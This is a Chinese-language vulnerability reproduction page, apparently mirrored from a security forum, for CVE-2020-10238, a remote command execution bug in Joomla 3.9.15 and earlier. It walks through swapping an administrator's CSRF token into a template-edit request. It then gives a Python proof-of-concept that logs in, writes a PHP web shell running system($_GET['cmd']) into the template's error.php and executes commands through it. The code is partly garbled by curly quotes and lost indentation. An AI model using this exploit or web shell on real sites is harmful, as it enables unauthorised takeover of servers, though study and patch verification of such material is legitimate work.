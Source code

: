 # （CVE-2020-10238）Joomla <= 3.9.15 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3000](https://www.zhihuifly.com/t/topic/3000)

# （CVE-2020-10238）Joomal <= 3.9.15 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

<= 3.9.15

## 三、复现过程

```
http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ== 
```

使用admin进行登录

![image](img/cb4f244589d927b0859eb04b5c8b8510.png)

### 思路：

*   首先超级管理员跟管理员的后台界面是不同的
*   将恶意代码添加到index.php里面
*   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![image](img/d13214c93d952894046230f30d45163a.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

![image](img/4eaac199b26528993fa98ee677daab86.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![image](img/718f97ebc0f6a8e3c813ab36e6048b16.png)

![image](img/f830048f048acb0047b603c7a5404987.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![image](img/d4a056c63fe2bcf360c85c956a59a253.png)

![image](img/cfb5a335b059125b800ae08786c159cf.png)

![image](img/159963ac729db38fc6f4451143b4613a.png)

### poc

![image](img/dcba14912a9104f55374d982e540b03a.png)

```
#!/usr/bin/python
import sys
import requests
import re
import argparse

def extract_token(resp):

match = re.search(r’name="([a-f0-9]{32})" value=“1”’, resp.text, re.S)

if match is None:

print("[-] Cannot find CSRF token!\n") + “[-] You are not admin account!”

return None

return match.group(1)

def try_admin_login(sess,url,uname,upass):

admin_url = url+’/administrator/index.php’

print(’[+] Getting token for admin login’)

resp = sess.get(admin_url, verify=True)

token = extract_token(resp)

# print token

if not token:

return False

print(’[+] Logging in to admin’)

data = {

‘username’: uname,

‘passwd’: upass,

‘task’: ‘login’,

token: ‘1’

}

resp = sess.post(admin_url, data=data, verify=True)

if ‘task=profile.edit’ not in resp.text:

print(’[!] Admin Login Failure!’)

return None

print(’[+] Admin Login Successfully!’)

return True

def rce(sess,url,cmd):

getjs = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D’

resp = sess.get(getjs, verify=True)

token = extract_token(resp)

if (token==None) : sys.exit()

filename=‘error.php’

shlink = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D’

shdata_up = {

‘jform[source]’: “<?php echo ‘Hacked by HK\n’ ;system($_GET[‘cmd’]); ?>”,

‘task’: ‘template.apply’,

token: ‘1’,

‘jform[extension_id]’: ‘506’,

‘jform[filename]’: ‘/’ + filename

}

shreq = sess.post(shlink, data=shdata_up)

path2shell = ‘/templates/protostar/error.php?cmd=’+cmd

# print '[+] Shell is ready to use: ’ + str(path2shell)

print ‘[+] Checking:’

shreq = sess.get(url + path2shell)

shresp = shreq.text

print shresp + ‘[+] Shell link: \n’ + (url + path2shell)

print ‘[+] Module finished.’

def main() :

```
# Construct the argument parser
ap = argparse.ArgumentParser()
# Add the arguments to the parser
ap.add_argument("-url", "--url", required=True,
				help=" URL for your Joomla target")
ap.add_argument("-u", "--username", required=True,
				help="username")
ap.add_argument("-p", "--password", required=True,
				help="password")
ap.add_argument("-cmd", "--command", default="whoami",
				help="command")
args = vars(ap.parse_args())
# target
url = format(str(args['url']))
print '[+] Your target: ' + url
# username
uname = format(str(args['username']))
# password
upass = format(str(args['password']))
# command
command = format(str(args['command']))

sess = requests.Session()
if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
rce(sess,url,command) 
``` `if **name** == “**main**”:

sys.exit(main())` 
```

## 参考链接

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238